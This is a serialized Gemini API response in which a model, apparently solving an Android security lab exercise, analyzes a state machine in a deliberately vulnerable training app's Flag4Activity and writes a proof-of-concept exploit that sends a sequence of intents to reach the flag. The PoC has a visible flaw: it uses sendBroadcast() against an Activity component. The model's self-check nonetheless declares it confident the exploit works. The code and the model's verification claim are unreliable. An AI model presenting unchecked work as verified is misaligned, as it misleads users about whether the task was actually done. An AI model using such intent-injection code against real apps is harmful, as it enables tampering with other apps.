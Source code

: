 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="Alright, I've examined the code for `Flag4Activity.java`. The activity uses a state machine stored in `SolvedPreferences` to control the flow. The `stateMachine` method transitions between states based on the received intent's action. The goal is to reach the `GET_FLAG` state and then trigger the `success(this)` method.\n\nHere's the vulnerability analysis:\n\n1.  **Code Comprehension:** The `Flag4Activity` uses a state machine to control access to the flag. The `stateMachine` method handles intent actions and transitions between states.\n2.  **Threat Modeling:**\n    *   **Sources:** The `Intent` received by the `stateMachine` method, specifically `intent.getAction()`.\n    *   **Sinks:** The `success(this)` method, which presumably displays the flag.\n3.  **Data Flow Tracing:** The `intent.getAction()` determines the state transition. The initial state is `INIT`. The following sequence of actions is required:\n    *   `INIT` -> `PREPARE` via `PREPARE_ACTION`\n    *   `PREPARE` -> `BUILD` via `BUILD_ACTION`\n    *   `BUILD` -> `GET_FLAG` via `GET_FLAG_ACTION`\n    *   `GET_FLAG` -> `INIT` via *any* action (or no action)\n4.  **Security Control Analysis:** The state transitions are checked using `if` statements. There are no explicit checks to prevent an external application from sending these intents.\n5.  **Vulnerability Hypothesis:** The `Flag4Activity` is vulnerable to a state manipulation attack. An external application can send a series of broadcast intents with specific actions to transition the activity's state to `GET_FLAG` and then trigger the `success(this)` method by sending another intent.\n\nNow, let's analyze the provided `MaliciousFlag4PoC.java`. It sends the following sequence of actions: `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then an empty action. This sequence should transition the state machine to `GET_FLAG` and then trigger the `success` method.\n\n**PoC Self-Validation:**\n\n*   **Re-read PoC Design & Vulnerable Code:** The PoC sends a series of intents to transition the `Flag4Activity`'s state machine.\n*   **Trace Expected Interaction:**\n    1.  The PoC starts `Flag4Activity` in `INIT` state.\n    2.  `PREPARE_ACTION` transitions the state to `PREPARE`.\n    3.  `BUILD_ACTION` transitions the state to `BUILD`.\n    4.  `GET_FLAG_ACTION` transitions the state to `GET_FLAG`.\n    5.  The empty action transitions the state from `GET_FLAG` to `INIT` and calls `success(this)`.\n*   **Verify Sink Trigger:** The empty intent *should* trigger `success(this)` when the state is `GET_FLAG`.\n*   **Identify Discrepancies:** The logic seems sound.\n*   **Justify Confidence:** I am confident that the PoC will work as designed.\n\nThe provided `MaliciousFlag4PoC.java` seems correct. I will now write the `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml` to files.\n\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: Send PREPARE_ACTION\n        sendAction(PREPARE_ACTION);\n\n        // Step 2: Send BUILD_ACTION\n        sendAction(BUILD_ACTION);\n\n        // Step 3: Send GET_FLAG_ACTION\n        sendAction(GET_FLAG_ACTION);\n\n        // Step 4: Send a final intent to trigger the flag\n        sendAction(""); // Empty action\n\n        Log.i("MaliciousFlag4PoC", "Intents sent");\n        finish(); // Close the activity after sending intents\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n    }\n}\n'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.08604549667210255, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=1133, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=1133)], prompt_token_count=18093, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=18093)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=19226, traffic_type=None), automatic_function_calling_history=[], parsed=None)
